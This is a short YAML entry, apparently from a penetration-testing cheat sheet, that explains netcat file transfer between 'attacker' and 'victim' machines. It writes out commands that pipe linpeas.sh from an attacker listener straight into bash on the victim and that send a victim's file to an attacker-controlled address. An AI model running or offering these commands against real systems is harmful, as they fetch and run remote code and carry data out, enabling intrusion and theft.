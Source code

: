 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    Copy from attacker to victim: nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)
    Copy from victim to attacker: nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)


command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

